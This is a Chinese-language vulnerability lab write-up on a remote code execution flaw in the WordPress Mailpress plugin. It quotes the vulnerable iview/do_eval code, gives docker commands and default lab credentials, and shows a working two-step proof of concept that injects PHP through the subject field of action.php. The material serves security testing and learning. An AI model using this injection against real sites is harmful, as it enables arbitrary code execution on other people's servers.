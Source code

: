## WordPress Mailpress Plugin 远程代码执行漏洞

### 漏洞信息

 * [WordPress Mailpress Plugin 远程代码执行漏洞](http://0day5.com/archives/3960)

WordPress Mailpress Plugin  插件中, `mailpress\mp-includes\class\MP_Actions.class.php` 文件中 `iview` 函数中 `subject` 参数未经过滤，直接拼接do_eval函数执行代码，而do_eval函数也未经任何过滤，导致远程代码执行漏洞。

### 漏洞相关代码

```
public static function iview()
{
$mp_general = get_option(MailPress::option_name_general);

$id = $_GET[‘id’];
$main_id = (isset($_GET[‘main_id’])) ? $_GET[‘main_id’] : $id;

$mail = MP_Mail::get($id);

$theme = (isset($_GET[‘theme’]) && !empty($_GET[‘theme’])) ? $_GET[‘theme’] : (!empty($mail->theme) ? $mail->theme : false);
$mp_user_id = (isset($_GET[‘mp_user_id’]) && !empty($_GET[‘mp_user_id’])) ? $_GET[‘mp_user_id’] : false;

// from
$from = (!empty($mail->fromemail)) ? MP_Mail::display_toemail($mail->fromemail, $mail->fromname) : MP_Mail::display_toemail($mp_general[‘fromemail’], $mp_general[‘fromname’]);
// to
$to = MP_Mail::display_toemail($mail->toemail, $mail->toname, ”, $mp_user_id);
// subject
$x = new MP_Mail();
$subject = (in_array($mail->status, array(‘sent’, ‘archived’))) ? $mail->subject : $x->do_eval($mail->subject);
$subject = $x->viewsubject($subject, $id, $main_id, $mp_user_id);
// template
$template = (in_array($mail->status, array(‘sent’, ‘archived’))) ? false : apply_filters(‘MailPress_draft_template’, false, $main_id);

// content
$args = array();
$args[‘action’] = ‘viewadmin’;
foreach(array(‘id’, ‘main_id’, ‘theme’, ‘template’, ‘mp_user_id’) as $x) if ($$x) $args[$x] = $$x;

foreach(array(‘html’, ‘plaintext’) as $type)
{
$args[‘type’] = $type;
if (!empty($mail->{$type})) $$type = “<iframe id=’i{$type}’ style=’width:100%;border:0;height:550px’ src='” . esc_url(add_query_arg( $args, MP_Action_url )) . “‘></iframe>”;
}

// attachements
$attachements = ”;
$metas = MP_Mail_meta::has( $args[‘main_id’], ‘_MailPress_attached_file’);
if ($metas) foreach($metas as $meta) $attachements .= “<tr><td>&#160;” . MP_Mail::get_attachement_link($meta, $mail->status) . “</td></tr>”;
$view = true;
include(MP_ABSPATH . ‘mp-includes/html/mail.php’);
}
```

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/wp-admin/ | admin | admin123


### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:w_wordpress_2
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:w_wordpress_2
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

### PoC 使用
1. 使用攻击代码触发漏洞
 ```
http://你的 IP 地址:端口号/wp-content/plugins/mailpress/mp-includes/action.php
 ```
post data:
 ```
action=autosave&id=0&revision=-1&toemail=&toname=&fromemail=&fromname=&to_list=1&Theme=&subject=<?php phpinfo();?>&html=&plaintext=&mail_format=standard&autosave=1
 ```


2. 访问存在漏洞页面获取结果

 ```
http://你的 IP 地址:端口号/wp-content/plugins/mailpress/mp-includes/action.php?action=iview&id=返回的文章id号

 ```
